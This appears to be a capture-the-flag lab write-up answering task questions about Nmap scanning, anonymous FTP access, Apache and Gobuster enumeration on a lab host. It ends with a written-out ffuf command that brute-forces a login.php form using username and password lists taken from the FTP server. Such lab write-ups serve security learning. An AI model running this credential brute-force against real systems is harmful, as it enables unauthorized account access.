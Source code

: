 #Task 1: What Nmap scanning switch employs the use of default scripts during a scan?
-sC

# Task 2: What service version is found to be running on port 21?
vsftpd 3.0.3

# Task 3: What FTP code is returned to us for the "Anonymous FTP login allowed" message?
230

# Task 4: After connecting to the FTP server using the ftp client, what username do we provide when prompted to log in anonymously?
anonymous

# Task 5: After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server?
get

# Task 6: What is one of the higher-privilege sounding usernames in 'allowed.userlist' that we download from the FTP server?
admin

# Task 7: What version of Apache HTTP Server is running on the target host?
Apache httpd 2.4.41

# Task 8: What switch can we use with Gobuster to specify we are looking for specific filetypes?
-x

# Task 9: Which PHP file can we identify with directory brute force that will provide the opportunity to authenticate to the web service?
login.php

# Flag: 
`ftp 10.129.1.15` connect to FTP to get username and password list, access to `login.php` page and bruce force `ffuf -w allowed.userlist:FUZZ1 -w allowed.userlist.passwd:FUZZ2  -u http://10.129.1.15/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "Username=FUZZ1&Password=FUZZ2&Submit=Login" -fs 1978`
